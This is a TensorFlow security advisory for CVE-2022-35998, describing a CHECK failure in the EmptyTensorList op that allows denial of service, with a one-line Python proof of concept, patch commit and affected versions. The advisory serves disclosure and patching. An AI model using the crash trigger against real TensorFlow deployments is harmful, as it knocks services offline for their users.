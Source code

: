 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-122.md
## TFSA-2022-122: `CHECK` fail in `EmptyTensorList`

### CVE Number
CVE-2022-35998

### Impact
If `EmptyTensorList` receives an input `element_shape` with more than one dimension, it gives a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

tf.raw_ops.EmptyTensorList(element_shape=tf.ones(dtype=tf.int32, shape=[1, 0]), max_num_elements=tf.constant(1),element_dtype=tf.int32)
```

### Patches
We have patched the issue in GitHub commit [c8ba76d48567aed347508e0552a257641931024d](https://github.com/tensorflow/tensorflow/commit/c8ba76d48567aed347508e0552a257641931024d).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Kang Hong Jin.
